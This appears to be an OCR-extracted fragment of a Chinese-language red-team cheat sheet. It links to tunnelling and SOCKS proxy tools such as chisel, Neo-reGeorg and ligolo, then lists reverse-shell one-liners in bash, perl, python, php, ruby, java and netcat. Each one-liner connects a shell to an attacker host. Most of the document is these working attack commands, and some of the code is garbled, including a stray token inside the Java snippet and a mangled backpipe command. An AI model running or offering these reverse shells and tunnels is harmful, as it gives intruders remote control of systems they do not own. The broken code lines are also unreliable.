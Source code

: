 ```
$ ./ew -s rssocks -d 127.0.0.1 -e 7777
```
#### [Termite](https://rootkiter.com/Termite/) 
使用说明:https://rootkiter.com/Termite/README.txt 
#### 代理脚本 
Neo-reGeorg : https://github.com/L-codes/Neo-reGeorg
### 内网隧道建立
[chisel](https://github.com/jpillora/chisel)--文章介绍[《Red Team: Using SharpChisel to exfil internal network》](https://medium.com/@shantanukhande/red-team-using-sharpchisel-to-exfil-internal-network-e1b07ed9b49)

[SharpChisel](https://github.com/shantanu561993/SharpChisel)--chisel的c#封装版本

[mssqlproxy](https://github.com/blackarrowsec/mssqlproxy)--利用mssql执行clr作为传输通道(当目标机器只开放mssql时)

[ligolo](https://github.com/FunnyWolf/ligolo) -- 轻量级的反向Socks5代理工具,所有的流量使用TLS加密

### shell反弹 
bash  
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
perl 
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
python 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
php 
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
ruby 
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
java 
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] 创维A20 String[])
p.waitFor()
```
nc 
```
#使用-e 
nc -e /bin/sh 223.8.200.234 1234 
```
```
#不使用-e
mknod /tmp/backpipe p
/bin/sh 0/tmp/backpipe | nc attackerip listenport 1>/tmp/backpipe
```
